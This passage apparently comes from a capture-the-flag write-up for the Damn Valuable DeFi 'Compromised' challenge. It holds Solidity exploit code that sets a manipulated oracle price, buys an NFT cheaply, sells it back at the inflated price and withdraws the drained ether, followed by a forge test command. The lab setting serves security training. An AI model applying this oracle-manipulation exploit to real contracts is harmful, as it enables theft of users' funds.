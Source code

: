 ```solidity
    oracle.postPrice(symbols[0], 999 ether);

    attackExchange.sell();
    attackExchange.withdraw(recovery, 999 ether);
}

contract Attack {
    TrustfulOracle oracle;
    Exchange exchange;
    DamnValuableNFT nft;
    uint nftId;

    constructor(TrustfulOracle _oracle, Exchange _exchange, DamnValuableNFT _nft) {
        oracle = _oracle;
        exchange = _exchange;
        nft = _nft;
    }

    receive() external payable {}

    function buy() external payable {
        uint _nftId = exchange.buyOne{value: 1}();
        nftId = _nftId;
    }

    function sell() external {
        nft.approve(address(exchange), nftId);
        exchange.sellOne(nftId);
    }

    function withdraw(address _recovery, uint amount) external {
        payable(_recovery).transfer(amount);
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```

Run `forge test --mp test/compromised/Compromised.t.sol --isolate` to validate test

---

## 8.PUPPET
